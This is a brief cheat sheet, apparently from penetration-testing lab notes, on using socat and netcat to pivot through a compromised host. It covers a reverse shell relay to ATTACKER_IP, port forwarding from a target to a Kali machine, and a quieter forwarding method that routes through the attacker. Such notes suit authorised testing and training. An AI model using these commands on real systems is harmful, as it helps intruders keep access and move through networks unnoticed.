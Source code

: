 ## Reverse shell relay

### Attacker: 

    sudo nc -lvnp 443 

### Target: 

    ./socat tcp-l:8000 tcp:ATTACKER_IP:443 &

## Port Forwarding

#### Run this on target machine, then browse to TARGET_IP:1234 from Kali machine to access the application

    socat TCP-LISTEN:1234,fork,reuseaddr tcp:127.0.0.1:8080 & 

#### Fork: Puts every connection into a new process

#### Reuseaddr: The port stays open after a connection is made to it.

## Port forwarding (Quiet)

### Attacker: 

    socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

### Target: 

    ./socat tcp:ATTACKER_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

## Close backgrounded socat

### 1: 

    jobs

### 

    kill %num% of process

